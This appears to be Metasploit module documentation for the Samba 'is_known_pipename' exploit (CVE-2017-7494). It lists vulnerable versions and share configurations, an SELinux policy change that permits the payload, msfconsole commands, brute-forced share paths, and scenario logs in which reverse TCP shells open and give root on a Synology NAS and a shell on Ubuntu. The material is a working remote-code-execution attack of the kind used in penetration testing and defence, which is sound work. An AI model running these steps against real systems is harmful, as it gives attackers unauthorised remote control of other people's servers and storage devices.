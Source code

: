 ## Vulnerable Application

This module exploits Samba from versions 3.5.0-4.4.14, 4.5.10, and 4.6.4 by loading a malicious shared library.
Samba's download archives are [here](https://download.samba.org/pub/samba/stable/).  There are some requirements
for this exploit to be successful:

1. Valid credentials
2. Writeable folder in an accessible share
3. Server-side path of the writeable folder

However, in some cases anonymous access with common filesystem locations can be used to automate exploitation.

A vulnerable Samba config may have a share similar to the following in `smb.conf`.  This is a setup for 'easy' exploitation
where no SMB options are required to be set:

```
[exploitable]
comment = CVE-2017-7494
path = /tmp
writable = yes
browseable = yes
guest ok = yes
```

Verified on:

1. Synology DS412+ DSM 6.1.1-15101 Update 2 (Samba 4.4.9)
2. Synology DS412+ DSM 6.1.1-15101 Update 3 (Samba 4.4.9)
3. Synology DS1512+ DSM 6.1.1-15101 Update 2 (Samba 4.4.9)
4. Synology DS1512+ DSM 6.1.1-15101 Update 3 (Samba 4.4.9)
5. Synology DS2415+ DSM 6.1-15047 (Samba 4.3.11)
6. Ubuntu 14.04.5 x64 (Samba 4.3.9)
7. Ubuntu 15.04 (Samba 4.1.13)
8. Ubuntu 16.04 (Samba 4.3.11)
   * 1:4.3.11+dfsg-0ubuntu0.16.04.3 and older are vulnerable, fixed in [2:4.3.11+dfsg-0ubuntu0.16.04.7](https://launchpad.net/ubuntu/+source/samba/2:4.3.11+dfsg-0ubuntu0.16.04.7)
9. Fedora 24 (Samba 4.4.13)

Currently not working against:

1. QNAP NAS Samba 4.4.9 on armv71
2. WD MyClous NAS Samba 4.0.0rc5 armv71

### SELinux

Fedora (and possibly Redhat) are not exploitable in their default installation.  SELinux must be adjusted to allow nmbd to use net_admin, and smbd to exec the payload.

```
echo -ne "type=AVC msg=audit(1495745298.086:334): avc:  denied  { execstack } for  pid=2365 comm="smbd" scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:system_r:smbd_t:s0 tclass=process permissive=0\ntype=AVC msg=audit(1495717997.099:267): avc:  denied  { net_admin } for  pid=959 comm="nmbd" capability=12  scontext=system_u:system_r:nmbd_t:s0 tcontext=system_u:system_r:nmbd_t:s0 tclass=capability permissive=0\ntype=AVC msg=audit(1495745002.690:308): avc:  denied  { execmem } for  pid=1830 comm="smbd" scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:system_r:smbd_t:s0 tclass=process permissive=0\ntype=AVC msg=audit(1495745183.319:331): avc:  denied  { execute } for  pid=2313 comm="smbd" path="/tmp/ucFtDpZI.so" dev="tmpfs" ino=27436 scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:object_r:smbd_tmp_t:s0 tclass=file permissive=0" | audit2allow -M cve-2017-7494; semodule -X 300 -i cve-2017-7494.pp
```

## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/linux/samba/is_known_pipename```
3. Do: ```set rhost [ip]```
4. Do: ```set target [target #]```
5. Do: ```exploit```

## Options

  **SMB_SHARE_NAME**
  
  The name of the SMB share containing a writeable directory.  Shares are automatically scanned for, and if this
  variable is non-blank, it will be preferred.

  **SMB_SHARE_BASE**
  
  The remote filesystem path correlating with the SMB share name.  This value is preferred, but other values are
  brute forced including:

1. /volume1
2. /volume2
3. /volume3
4. /shared
5. /mnt
6. /mnt/usb
7. /media
8. /mnt/media
9. /var/samba
10. /tmp/home/home/shared

  **SMB_FOLDER**
  
  The directory to use within the writeable SMB share.  Writable directories are automatically scanned for, and if this
  variable is non-blank, it will be preferred.

## Scenarios

### Synology DS412+ w/ INTEL Atom D2700 on DSM 6.1.1-15101 Update 2

```
msf exploit(is_known_pipename) > exploit

[*] Started reverse TCP handler on 1.2.3.117:4444 
[*] 1.2.3.119:445 - Using location \\1.2.3.119\ESX\ for the path
[*] 1.2.3.119:445 - Payload is stored in //1.2.3.119/ESX/ as eePUbtdw.so
[*] 1.2.3.119:445 - Trying location /volume1/eePUbtdw.so...
[-] 1.2.3.119:445 - Probe: /volume1/eePUbtdw.so: The server responded with error: STATUS_OBJECT_NAME_NOT_FOUND (Command=162 WordCount=0)
[*] 1.2.3.119:445 - Trying location /volume1/ESX/eePUbtdw.so...
[*] Command shell session 1 opened (1.2.3.117:4444 -> 1.2.3.119:34366) at 2017-05-24 21:12:07 -0400

id
uid=0(root) gid=0(root) groups=0(root),100(users)
uname -a
Linux synologyNAS 3.10.102 #15101 SMP Fri May 5 12:01:38 CST 2017 x86_64 GNU/Linux synology_cedarview_412+
```

### Ubuntu 16.04

```
msf exploit(is_known_pipename) > exploit 

[*] Started reverse TCP handler on 192.168.0.3:4444 
[*] 192.168.0.3:445 - Using location \\192.168.0.3\yarp\h for the path
[*] 192.168.0.3:445 - Payload is stored in //192.168.0.3/yarp/h as GTithXJz.so
[*] 192.168.0.3:445 - Trying location /tmp/yarp/h/GTithXJz.so...
[*] Command shell session 6 opened (192.168.0.3:4444 -> 192.168.0.3:45076) at 2017-05-24 19:41:40 -0500

id
uid=65534(nobody) gid=0(root) groups=0(root),65534(nogroup)
```
